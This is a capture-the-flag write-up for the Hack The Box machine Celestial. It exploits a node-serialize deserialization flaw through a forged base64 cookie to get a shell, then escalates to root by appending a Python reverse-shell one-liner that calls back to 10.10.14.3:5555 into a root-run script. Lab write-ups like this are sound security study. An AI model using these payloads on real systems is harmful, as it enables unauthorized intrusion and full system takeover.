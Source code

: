 ```yaml
---
title:     "Hack The Box - Celestial"
tags: [linux,medium,node,serialize,cron]
layout: post
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/1.png)

We are going to pwn Celestial by 3ndG4me from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/130>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only One port Available and it is a Node.js Express framework so let's check the webpage of it.

## HTTP:

It displayes a message and nothing else.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/2.png)

Since it is ``Node.js`` framework, Capture the webpage request in burp and check for interesting things.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/3.png)
There is  ``Profile`` cookie in request header and its seems like Base64 encoded, and the Cookie start with ``eyJ`` it is JSON Web Token. 

It is Base64 encoded cookie this information is displayed in response header.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/4.png)

Since it is Base64 encoded cookie, why dont we change it and encode it with base64 and pass it as cookie.<br/>

I changed the ``"num":"2"`` to ``"num":"3"`` and encoded it with base64.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/5.png)
Now I copied that base64 encoded cookie and pass it to the Request Header Cookie.<br/>

The Output Now changes to ``Hey Dummy 3 + 3 is 33`` so If we change the ``num`` in the cookie, it changes in the response. This is because of a module called [node-serialize](https://www.npmjs.com/package/node-serialize)<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/5.1.png)

I searched for NodeJs Serialize exploits and found this link.
><https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>

According to the article, the data we send as a cookie value was passed into the ``unserialize()`` function which unserialize the serialized format code and execute it accordingly. Since Node.js and plenty of other languages rely on the serializtion of the objects, the main issue lies in the parsing of this data whether they contain any malicious code or not. Taking advantage of this, we can generate a payload and due to which try to execute something that can help us in futher exploitation. Once payload created, we can pass it as a cookie value, which then passed into `unserialize`, hence deserialization of the our payload will execute the code.

## Payload Generation:

I started with [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create our reverse shell with Our machine IP.<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/6.png)

We need to generate the serialize payload by using ``log.js``<br/>

``log.js``
```
var y = {
 rce : function(){}
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Before doing this make you sure you need to do this.
```
apt install nodejs
apt install npm
npm install node-serialize
```

Copy the payload we got from the python script and paste that in ``function(){PAYLOAD}`` and execute it.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/7.png)

Now we got Serialized payload, Copy the payload and encode as Base64, don't forgot to add brackets ``()`` after the function body.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/8.png)

## Gaining Shell:

Paste the encoded Base64 in ``Cookie : Profile=``, send the request and start the listener.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/9.png)
Got the shell as user ``sun``. You can get the user Flag in ``/Documents``.


## Privilege Escalation:

Uploaded ``pspy`` to the box to check any process running in the background.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/10.png)
There is a python script in ``/Document/script.py`` which is running as root. We have write permission on the file too. So I upload python reverese shell.

```
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> script.py
```
Started my listener and I got Root!!<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-celestial/11.png)

